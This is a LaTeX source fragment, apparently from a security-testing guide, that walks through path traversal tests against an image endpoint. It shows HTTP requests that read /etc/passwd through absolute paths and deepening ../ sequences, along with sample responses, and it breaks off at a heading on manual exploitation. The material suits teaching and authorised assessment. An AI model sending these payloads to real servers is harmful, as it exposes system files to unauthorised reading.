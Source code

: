 \documentclass[11pt,letterpaper]{article}
\begin{document}
\subsubsection{Test 1: Absolute Path Acceptance}

\begin{verbatim}[language=http,caption={Testing if absolute paths are accepted}]
GET /image?filename=/etc/passwd HTTP/1.1
Host: target.example.com

-- Possible responses --

Response A (Vulnerable to absolute paths):
HTTP/1.1 200 OK
root:x:0:0:root:/root:/bin/bash
...

Response B (Absolute paths rejected):
HTTP/1.1 400 Bad Request
No such file

Response C (Path prepended, file not found):
HTTP/1.1 404 Not Found
File not found: /var/www/images//etc/passwd
\end{verbatim}

\subsubsection{Test 2: Relative Path Traversal}

\begin{verbatim}[language=http,caption={Testing relative path traversal with varying depth}]
-- Start with minimal traversal --
GET /image?filename=../etc/passwd HTTP/1.1

-- Increase depth progressively --
GET /image?filename=../../etc/passwd HTTP/1.1
GET /image?filename=../../../etc/passwd HTTP/1.1
GET /image?filename=../../../../etc/passwd HTTP/1.1

-- Use excessive depth to ensure reaching root --
GET /image?filename=../../../../../../../../../etc/passwd HTTP/1.1

-- If successful --
HTTP/1.1 200 OK
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
\end{verbatim}

\section{Manual Exploitation Workflow}

\subsection{Pre-Assessment Setup}
\end{document}
